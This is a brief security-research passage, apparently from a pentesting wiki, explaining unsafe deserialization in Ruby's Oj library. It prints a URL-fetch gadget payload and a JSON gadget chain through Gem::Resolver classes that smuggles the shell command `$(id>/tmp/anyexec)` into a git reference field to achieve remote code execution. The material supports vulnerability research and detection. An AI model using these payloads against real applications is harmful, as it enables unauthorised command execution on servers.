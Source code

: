 In the case of trying to abuse Oj, it was possible to find a gadget class that inside its `hash` function will call `to_s`, which will call spec, which will call fetch_path which was possible to make it fetch a random URL, giving a great detector of these kind of unsanitized deserialization vulnerabilities.

```json
{
  "^o": "URI::HTTP",
  "scheme": "s3",
  "host": "example.org/anyurl?",
  "port": "anyport",
  "path": "/",
  "user": "anyuser",
  "password": "anypw"
}
```

Moreover, it was found that with the previous technique a folder is also created in the system, which is a requirement to abuse another gadget in order to transform this into a complete RCE with something like:

```json
{
  "^o": "Gem::Resolver::SpecSpecification",
  "spec": {
    "^o": "Gem::Resolver::GitSpecification",
    "source": {
      "^o": "Gem::Source::Git",
      "git": "zip",
      "reference": "-TmTT=\"$(id>/tmp/anyexec)\"",
      "root_dir": "/tmp",
      "repository": "anyrepo",
      "name": "anyname"
    },
    "spec": {
      "^o": "Gem::Resolver::Specification",
      "name": "name",
      "dependencies": []
    }
  }
}
```

Check for more details in the [**original post**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm_source=pocket_shared).
